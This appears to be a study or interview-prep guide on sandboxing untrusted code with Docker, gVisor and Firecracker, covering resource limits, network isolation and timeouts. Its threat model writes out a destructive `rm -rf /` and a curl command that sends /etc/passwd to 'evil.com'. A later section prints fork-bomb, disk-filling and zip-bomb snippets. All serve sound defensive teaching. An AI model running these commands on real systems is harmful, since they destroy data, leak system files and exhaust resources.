



**One-liner:** Sandboxing isolates untrusted code execution using containers, VMs, or security layers to prevent system compromise.

## Why Sandboxing Matters

### Threat Model
**User-provided or agent-generated code can:**
- Delete files: `rm -rf /`
- Exfiltrate data: `curl evil.com -d "$(cat /etc/passwd)"`
- Mine crypto: Infinite loop consuming CPU
- Attack network: Port scan internal services
- Exploit vulnerabilities: Privilege escalation

**Reality:** 100% of production agent systems running code MUST use sandboxing

## Isolation Technologies

### Comparison Table

| Technology | Isolation | Startup | Overhead | Security | Use Case |
|------------|-----------|---------|----------|----------|----------|
| **Docker** | Process | 1-3s | Low | Good | Production default |
| **gVisor** | Syscall | 0.5s | Medium | Excellent | High security |
| **Firecracker** | VM | 125ms | Very low | Excellent | AWS Lambda |
| **VM (KVM)** | Hardware | 5-10s | High | Excellent | Legacy/Windows |
| **WebAssembly** | Memory | 10ms | Minimal | Good | Browser/edge |
| **Python sandbox** | Language | 1ms | Minimal | Poor | Development only |

**Staff insight:** Docker = 80% of production, Firecracker = cold-start critical, gVisor = security-first

## Docker-Based Sandboxing

### Basic Architecture



### Docker Security Layers

**1. Namespaces (Process isolation)**
```bash
# Each container has isolated:
PID namespace    # Process IDs (can't see host processes)
NET namespace    # Network stack (isolated networking)
MNT namespace    # Filesystems (can't see host mounts)
UTS namespace    # Hostname (isolated hostname)
IPC namespace    # Inter-process communication
USER namespace   # User IDs (root in container ≠ root on host)
```

**2. Cgroups (Resource limits)**
```bash
docker run \
  --cpus=1.0 \              # Max 1 CPU core
  --memory=512m \           # Max 512MB RAM
  --memory-swap=512m \      # No swap
  --pids-limit=50 \         # Max 50 processes
  --network=none \          # No network
  sandbox-image
```

**3. Seccomp (Syscall filtering)**
```json
{
  "defaultAction": "SCMP_ACT_ERRNO",
  "syscalls": [
    {"names": ["read", "write", "open"], "action": "SCMP_ACT_ALLOW"},
    {"names": ["execve", "socket"], "action": "SCMP_ACT_ERRNO"}
  ]
}
```
Blocks dangerous syscalls (socket creation, exec, etc.)

**4. AppArmor/SELinux (Mandatory access control)**
```
# Deny all filesystem access except /workspace
deny /** rwx,
allow /workspace/** rwx
```

### Production Docker Setup

```python
import docker

class CodeSandbox:
    def __init__(self):
        self.client = docker.from_env()
        self.image = "python:3.11-slim"

    def execute(self, code: str, timeout: int = 30):
        """Execute code in isolated container"""
        try:
            container = self.client.containers.run(
                image=self.image,
                command=["python", "-c", code],
                # Security
                network_mode="none",          # No network
                mem_limit="512m",             # RAM limit
                memswap_limit="512m",         # No swap
                cpu_period=100000,
                cpu_quota=100000,             # 1 CPU core
                pids_limit=50,                # Process limit
                security_opt=["no-new-privileges"],
                cap_drop=["ALL"],             # Drop all capabilities
                read_only=True,               # Read-only filesystem
                # Runtime
                detach=False,
                remove=True,                  # Auto-cleanup
                stdout=True,
                stderr=True,
                timeout=timeout
            )

            return {
                "success": True,
                "output": container.decode("utf-8"),
                "error": None
            }

        except docker.errors.ContainerError as e:
            return {"success": False, "error": str(e)}
        except Exception as e:
            return {"success": False, "error": f"Sandbox error: {e}"}
```

**Time complexity:** O(1) per execution (container pooling)
**Space complexity:** O(N) containers × 512MB each

## Advanced Patterns

### 1. Container Pooling

**Problem:** Creating containers takes 1-3s
**Solution:** Pre-warm pool of idle containers

```python
class ContainerPool:
    def __init__(self, size=10):
        self.pool = Queue()
        for _ in range(size):
            container = self._create_container()
            self.pool.put(container)

    def execute(self, code):
        container = self.pool.get(timeout=5)  # Get from pool
        try:
            result = container.exec_run(["python", "-c", code])
            self._reset_container(container)   # Clean state
            return result
        finally:
            self.pool.put(container)           # Return to pool

    def _reset_container(self, container):
        """Clear /tmp, reset process tree"""
        container.exec_run(["sh", "-c", "rm -rf /tmp/* && kill -9 -1"])
```

**Improvement:** 1-3s → 50-200ms execution time

### 2. Snapshot & Restore (Firecracker)



**Firecracker (AWS Lambda's engine):**
- Full VM isolation (KVM)
- Boot time: ~125ms from snapshot
- Resource overhead: ~5MB per microVM
- Used by: AWS Lambda, Fly.io, Cloudflare Workers

### 3. Copy-on-Write Filesystems

```bash
# Base image: 500MB (Python + libs)
# Per-container: Only changed files (~10MB)

docker run --storage-opt size=1G \  # Limit writable layer
           --read-only \            # Base image read-only
           --tmpfs /tmp:rw,size=100m \  # Temp writable space
           sandbox-image
```

**Benefit:** 100 containers = 500MB base + 1GB deltas (vs 50GB total)

## Network Isolation Strategies

### No Network (Strictest)
```python
network_mode="none"  # No network interface at all
```
**Pros:** Can't exfiltrate | **Cons:** Can't call APIs

### Allowlist Egress
```bash
# Use proxy + firewall
iptables -A OUTPUT -d 192.168.1.0/24 -j ACCEPT  # Internal services
iptables -A OUTPUT -d api.openai.com -j ACCEPT  # Allowed external
iptables -A OUTPUT -j DROP                       # Block everything else
```

### HTTP Proxy with Inspection


**Use case:** Agent needs to call specific APIs but nothing else

## Timeout & Resource Limits

### Multi-Layer Timeouts

```python
# Layer 1: Container-level (hard limit)
docker run --stop-timeout 30 sandbox-image

# Layer 2: Python-level (graceful)
import signal

def timeout_handler(signum, frame):
    raise TimeoutError("Execution exceeded limit")

signal.signal(signal.SIGALRM, timeout_handler)
signal.alarm(30)  # 30 seconds

try:
    exec(user_code)
finally:
    signal.alarm(0)  # Cancel alarm

# Layer 3: Orchestration-level
# Kill if still running after 35s (safety net)
```

**Why 3 layers?** Defense in depth - if one fails, others catch it

### Resource Monitoring

```python
import psutil

def execute_with_monitoring(code):
    process = subprocess.Popen(["python", "-c", code])

    while process.poll() is None:
        # Check resource usage
        proc = psutil.Process(process.pid)

        if proc.cpu_percent() > 95:  # Pegged CPU
            process.kill()
            return {"error": "CPU limit exceeded"}

        if proc.memory_info().rss > 512 * 1024 * 1024:  # >512MB
            process.kill()
            return {"error": "Memory limit exceeded"}

        time.sleep(0.1)

    return {"output": process.communicate()}
```

## Security Best Practices

### 1. Principle of Least Privilege

```dockerfile
# ❌ Bad - Running as root
FROM python:3.11
COPY app.py /app/
CMD ["python", "/app/app.py"]

# ✅ Good - Non-root user
FROM python:3.11
RUN useradd -m -u 1000 sandbox
USER sandbox
COPY --chown=sandbox:sandbox app.py /home/sandbox/
WORKDIR /home/sandbox
CMD ["python", "app.py"]
```

### 2. Read-Only Filesystem

```python
volumes = {
    "/workspace": {"bind": "/workspace", "mode": "rw"},  # Only workspace writable
}

container = client.containers.run(
    image="sandbox",
    volumes=volumes,
    read_only=True,        # Root filesystem read-only
    tmpfs={"/tmp": "size=100m"}  # Temp space
)
```

### 3. Drop All Capabilities

```python
# Docker capabilities (subset of root powers)
# Drop ALL by default, add back only what's needed

cap_drop=["ALL"],              # Drop everything
cap_add=["CHOWN", "SETUID"]    # Add back minimal set if needed
```

**Common capabilities to NEVER allow:**
- `NET_ADMIN` - modify network settings
- `SYS_ADMIN` - mount filesystems, load kernel modules
- `SYS_PTRACE` - debug other processes

## Edge Cases & Gotchas

### Fork Bombs
```python
# Malicious code
import os
while True:
    os.fork()  # Exponential process creation
```

**Solution:** `--pids-limit=50` (limit total processes)

### Disk Space Exhaustion
```python
# Fill disk
with open("/tmp/large", "wb") as f:
    f.write(b"A" * (10**9))  # Write 1GB
```

**Solution:** `--storage-opt size=1G` (limit writable layer)

### Slow Syscalls
```python
# Deliberately slow
import time
time.sleep(1000000)
```

**Solution:** Overall timeout + CPU usage monitoring

### Zip Bombs
```python
# Decompress to 4.5 petabytes
import zipfile
zipfile.ZipFile("bomb.zip").extractall()
```

**Solution:** Limit extracted file sizes, disk quotas

## Production Benchmarks

**E2E Latency Breakdown (Python execution):**
```
Container creation:     1200ms (cold)
Container from pool:      50ms (warm)
Code execution:          500ms (depends on code)
Output streaming:         20ms
Cleanup:                  30ms
──────────────────────────────
Total (cold):           1800ms
Total (warm):            600ms
```

**Optimization targets:**
- Pool hit rate: >95% (minimize cold starts)
- P50 latency: <500ms
- P99 latency: <2s
- Concurrent sandboxes: 100-500 per host

## Real-World Examples

### GitHub Copilot Workspace
- **Sandbox:** Docker containers
- **Languages:** Python, JavaScript, Java, Go
- **Network:** Disabled
- **Timeout:** 30s per execution
- **Scale:** Millions of executions/day

### Replit
- **Sandbox:** gVisor (better security than Docker)
- **Network:** Full internet access (user projects)
- **Persistence:** User data in volumes
- **Scale:** 10M+ users

### AWS Lambda
- **Sandbox:** Firecracker microVMs
- **Cold start:** 125ms (snapshot restore)
- **Timeout:** 15 minutes max
- **Isolation:** Full VM per function

## Key Takeaways

- **Docker** is production standard: Good security, fast enough, ecosystem support
- **gVisor** for paranoid security: Blocks syscalls at kernel level
- **Firecracker** for cold-start critical: 125ms boot time
- **Container pooling** is essential: 1-3s → 50ms improvement
- **Defense in depth:** Multiple timeout layers, resource limits, network isolation
- **Never trust user code:** Read-only FS, no network, capability drop, PID limits
- **Monitor actively:** CPU, memory, disk, process count
- **Plan for malicious:** Fork bombs, zip bombs, disk exhaustion

## Interview Focus

- **High frequency:** Docker security layers, resource limits, timeout strategies
- **Design question:** "Design a code execution service for 1M requests/day"
- **Trade-offs:** Security vs performance, isolation level vs latency
- **Scale:** Container pooling, shared base images, scheduling
- **Security:** Principle of least privilege, defense in depth

## Common Gotchas

- Forgetting `--network=none` (data exfiltration risk)
- No PID limit (fork bomb vulnerability)
- Running as root (privilege escalation possible)
- No timeout (infinite loops lock resources)
- Sharing containers (state leakage between executions)
